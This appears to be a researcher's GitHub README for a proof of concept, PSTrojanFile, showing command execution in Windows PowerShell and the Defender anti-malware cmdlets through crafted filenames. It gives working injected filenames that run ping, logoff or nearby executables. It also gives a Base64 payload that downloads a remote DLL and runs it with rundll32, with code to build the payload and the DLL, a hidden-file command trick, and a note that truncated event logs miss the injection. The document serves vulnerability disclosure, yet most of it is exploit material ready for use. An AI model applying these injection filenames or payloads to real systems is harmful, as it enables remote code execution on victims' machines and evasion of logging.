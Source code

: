 # PSTrojanFile
Windows PowerShell Filename and Defender Anti-Malware API - Code Execution POC <br>  
Discovery: John Page (aka hyp3rlinx) 2019 and revisted 2023

Updated Dec 24, 2023 <br>

Bypassing single quotes obstacle in PowerShell for code exec and bonus PS Windows Event log fail! <br>
Semicolon and friend "&" operator join forces for arbitrary code exec capabilities. <br>

Run some unwanted malware: <br>
C:\Users\gg\Downloads>powershell get-filehash  'Infected&ScanMe;.zip'  -algorithm  md5 <br>
Where Malware.exe lives in the same directory. <br>
powershell Start-MpScan -Scanpath 'C:\Users\gg\Downloads\Infected&Malware;.zip' <br>

PowerShell Event ID 403, logging fails due to truncating: <br>
HostApplication=powershell Start-MpScan -Scanpath 'C:\Users\gg\Downloads\Infected <br>
EngineVersion=5.1.19041.3803 <br>

Call ping cmd <br>
C:\>powershell get-filehash  'powerfail&ping 8.8.8.8&.txt'  -algorithm  md5 <br>

Logoff victim: <br>
C:\>powershell Start-MpScan -Scanpath 'virus&logoff&test.zip' <br>

Updated: Dec 7, 2023 added CL and Windows Defender API vector, see below:

Since it still works, I dusted off and made minor improvements: <br> 
1) Execute a remote DLL using rundll32
2) Execute an unintended secondary PS1 script or local text-file (can be hidden)
3) Updated the PS1 Trojan Filename Creator Python3 Script

First reported to Microsoft back in 2019 yet remains unfixed as of the time of this writing. <br>  
Remote code execution via a specially crafted filename. <br>  

The flaw is due to semicolon ";" we can decode a Base64 command and execute straight from the PS1 filename or just exec commands.

Test;POweRsHeLL -e [BASE64 UTF-16LE PAYLOAD];.ps1 <br>  

Call commands straight away <br>  

"Testing;saps (gc -) PoC;.ps1"

Vectors: double click, drag and drop to PS shortcut

Leverages alternate shorthand PS commands like "saps", "gc" start a process and get-content etc.

DLL Execution Example: <br>  
=======================
Create a trojan PS1 file that will try to download and execute a remote DLL named "1.d"

Python: <br>  
from base64 import b64encode <br>  

b64encode("saps  http[]//127.0.0.1/1.d;sleep -s 2;rundll32 $HOME\\Downloads\\1.d, 0".encode('UTF-16LE')) <br>  

cwBhAHAAcwAgACAAaAB0AHQAcAA6AC8ALwAxADIANwAuADAALgAwAC4AMQAvADEALgBkADsAcwBsAGUAZQBwACAALQBzACAAMgA7AHIAdQBuAGQAbABsADMAMgAgACQASABPAE0ARQBcAEQAbwB3AG4AbABvAGEAZABzAFwAMQAuAGQALAAgADAA

DLL Code: <br>  

#include <windows.h> <br> 

//gcc -shared -o mydll.dll mydll.c -m32 <br>  

//hyp3rlinx <br>  

void evilo(void){ <br>  

MessageBox(0,"Filename Remote Code Execution PoC\r\nBy hyp3rlinx","M$ Windows PowerShell",1); <br>  

} <br>  

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved){ <br>  

evilo(); <br>  

return 0; <br>  

} <br>  


python -m http.server 80

Double click the trojan PS1 file. <br>  


Text-file Code Execution Example: <br> 
======================================

Create a PS1 file with name including saps "start a process" and gc "get-content", this will read commands from hidden file. <br>  

"Test;saps (gc -) PoC;.ps1" <br>  

Create hidden: attrib +s +h "-" <br>  

Double click or drag and drop.

Requirements: <br>  
=====================

a) PowerShell PS1 files must be set to open with PowerShell as the default program <br>  

b) Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force <br>  

c) User must double-click, run from cmd line or drag and drop the maliciously named PS1 script <br>  


https://www.youtube.com/watch?v=-ZJnA70Cf4I

https://github.com/hyp3rlinx/PSTrojanFile/assets/12366009/029d41d2-af58-434d-8d0f-0bf8f01d1c55

![PSTrojanFile](https://github.com/hyp3rlinx/PSTrojanFile/assets/12366009/31317076-6ceb-4b28-8062-9c8863b0831d)

Update: Microsoft Defender Anti-Malware PowerShell API - Arbitrary Code Execution.

Microsoft Defender Anti Malware and or PS API's can result in executing arbitrary code.
E.g. scan a directory, shortcut .lnk or even non-existent item, may execute unintended code.
This vector builds upon my previous advisory and subsequent project PSTrojanFile.

Requirements:
1) On CL 'powershell' cmd is prefixed or passed in by calling PowerShell from another script
2) Executable file of same name as the parameter that lives nearby

Examples: <br>
powershell Start-MpScan -Scanpath "C:\Users\gg\Downloads\;saps Helper;.1.zip"
(Helper.exe lives on Desktop)

Create directory  ";saps Test", Test.exe, Test.cmd etc is on same CL path <br>
powershell Add-MpPreference -ControlledFolderAccessAllowedApplications ";saps Test"

Create directory with semicolon, drop PE file named doom.exe in same path.  <br>
powershell Set-ProcessMitigation -PolicyFilePath  "test;saps doom"

Last but not least:
When grabbing a file hash in PowerShell logs you out  :)  <br>
c:\>powershell  get-filehash  -algorithm MD5 "Malware;saps logoff.exe"  <br>

https://www.youtube.com/watch?v=0Go6yJiRWP8

https://github.com/hyp3rlinx/PSTrojanFile/assets/12366009/b033b9f8-1ea0-4ea3-9fa3-56ea63db5b08



